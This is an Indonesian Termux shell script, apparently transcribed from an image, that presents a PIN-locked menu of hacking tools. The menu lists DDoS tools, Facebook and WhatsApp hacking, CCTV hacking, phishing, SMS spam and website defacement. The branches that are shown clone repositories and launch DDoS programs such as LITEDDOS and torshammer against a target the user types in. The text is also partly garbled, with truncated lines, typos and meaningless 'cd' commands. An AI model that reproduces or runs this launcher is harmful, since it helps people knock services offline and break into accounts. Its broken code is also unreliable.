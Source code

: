 blue='\033[34;1m'
green='\033[32;1m'
purple='\033[35;1m'
cyan='\033[36;1m'
red='\033[31;1m'
white='\033[37;1m'
yellow='\033[33;1m'

clear
echo
echo $purple"[+]PIN :"$yellow"0858"
echo "\033[33;1m"
echo "╔═╗  ╔═╗  ╔═╗"
echo "|1|  |2|  |3|"
echo "╚═╝  ╚═╝  ╚═╝"
echo "╔═╗  ╔═╗  ╔═╗"
echo "|4|  |5|  |6|"
echo "╚═╝  ╚═╝  ╚═╝"
echo "╔═╗  ╔═╗  ╔═╗"
echo "|7|  |8|  |9|"
echo "╚═╝  ╚═╝  ╚═╝"
read -p "Masukan PIN Project :" pin
if [ $pin = "0858" ]
then
sleep 1
clear
else
cd al.sh
fi

cd $HOME
cd al.sh
cd module
cd load.sh
echo -n $cyan"Anda memakai tools ini pada tanggal "; date >
echo "\033[36;1m[]========================================>
echo "\033[37;1m[] AUTHOR :  Mr.Zack                      >
echo "\033[32;1m[] TEAM   : Cyber Indonsia                >
echo "\033[36;1m[]========================================>
echo $cyan"[+]============================================>
echo $cyab"                      SELAMAT DATANG"|lolcat
echo $cyan"[+]============================================>
echo  "___________________________________________________>
echo

echo $cyan"2) Tools TUANBADUTv4"
echo
echo $white"3) Tools BAJINGANv5"
echo
echo $blue"4) Tools BAJINGANv6"
echo
echo $purple"5) Hammer buat ddos"
echo
echo $red"6) Lite -Ddos buat ddos"
echo
echo $yellow"7) Xerxes buat ddos"
echo
echo $green"8) Torhammer buat ddos"
echo
echo $cyan"9) Bermain moon-buggy"
echo
echo $white"10) Musikan di termux"
echo
echo $blue"11) MALICIOUS BUAT VIRUS"
echo
echo $purple"12) Instal OSIF"
echo
echo $red"13) Hack fb mbf/massal"
echo
echo $yellow"14) Hack cctv"
echo
echo $green"15) Instal neth unter"
echo
echo $cyan"16) Spammer sms"
echo
echo $white"17) hacker Recondog"                          >
echo
echo $blue"18) Instal Sungai atau kali linux no root"
echo
echo $purple"19) Deface"
echo
echo $red"20) Pulsa Gratis all operator"
echo
echo $blue"21) Tools mr.cakil"
echo
echo $purple"22) ko-dork"
echo
echo $red"23) buat script deface"
echo
echo $white"24) Sadap whatsapp jarak jauh"
echo
echo $blue"25) Tools Moreno77"
echo
echo $green"26) weeman"
echo
echo $purple"27) PhisingGame"
echo
echo $yellow"28) install hash buster"
echo
echo $blue"29) Fb-React"
echo
echo $white"30) Hack fb narget"
echo
echo $red"31) instal sqlmap"                              >
echo
echo $green"32) install santet online buat santet mantan"
echo
echo $purple"33) install metasploit"
echo
echo $blue"34) install infoga"
echo
echo $red"35) install instabot"
echo
echo $purple"36) Hack Life Facebook"
echo
echo $blue"37) install breacher"
echo
echo $white"38) Install RouterSploit"
echo
echo $red"39) Install D-TECT"
echo
echo $yellow"40) Menampilkan Teks ascii"
echo
echo $blue"41) Bot fb"
echo
echo $cyan"42) Download Apk Hack Facebook"
echo
echo $green"43) DEFACE VERSI 4LF1T0"
echo
echo $purple"44) Pulsa Gratis All Operator"
echo
echo $white"45) Install Katoolin"
echo
echo $red"46) Auto Create Facebook"
echo
echo $yellow"47) install Gps tracking"
echo
echo $blue"48) install Sn1Per"
echo
echo $cyan"49) install wpbf"
echo
echo $green"50) Kali Linux"
echo
echo $cyan"00)Exit"
echo "____________________________________________________>
echo
echo "\033[32;1m╭──=>>[PILIH NOMORNYA]"
read -p "╰──────────────────────────> : " bos

if [ $bos = 1 ] || [ $bos = 1 ]
then
clear
figlet -f slant "Loading . . " | lolcat
pkg install python python2 vim figlet curl
pkg install php
pip2 install lolcat
pjg install git
git clone https://github.com/TUANB4DUT/TOOLSINSTALLERv4
cd TOOLSINSTALLERv4
ls
chmod 777 TUANB4DUT..sh
./TUANB4DUT..sh
fi

if [ $bos = 3 ] || [ $bos = 3 ]
then
clear
figlet -f slant "Loading . . " | lolcat
pkg install git
pkg insatll toilet
pkg install figlet
pip2 install lolcat
git clone https://github.com/DarknessCyberTeam/B4J1N64Nv5
cd B4J1N64Nv5
sh B4J1N64N.sh
fi

if [ $bos = 4 ] || [ $bos = 4 ]
then
clear
figlet -f slant "Loading . . " | lolcat
pkg install git
git clone https://github.com/DarknessCyberTeam/BAJINGANv6
ls
cd BAJINGANv6
sh BAJINGAN.sh
fi
if [ $bos = 5 ] || [ $bos = 5 ]
then
clear
figlet -f slant "Loading . . " | lolcat
pkg install python
pkg install git
git clone https://github.com/cyweb/hammer
cd hammer
python hammer.py
fi

if [ $bos = 6 ] || [ $bos = 6 ]
then
clear
figlet -f slant "Loading . . " | lolcat
apt install git
git clone https://github.com/4L13199/LITEDDOS
mv LITEDDOS $HOME
cd $HOME/LITEDDOS
read -p "MasukanTarget:" target
python2 LITEDDOS.py target 80 100
fi

if [ $bos = 7 ] || [ $bos = 7 ]
then
clear
figlet -f slant "Loading . . " | lolcat
clear
apt update
apt install git
apt install tor
git clone https://github.com/dotfighter/torshammer.git
mv torshammer $HOME
cd $HOME/torshammer
read -p "Masukan Target==>:" target
python2 torshammer.py -T -t target
fi
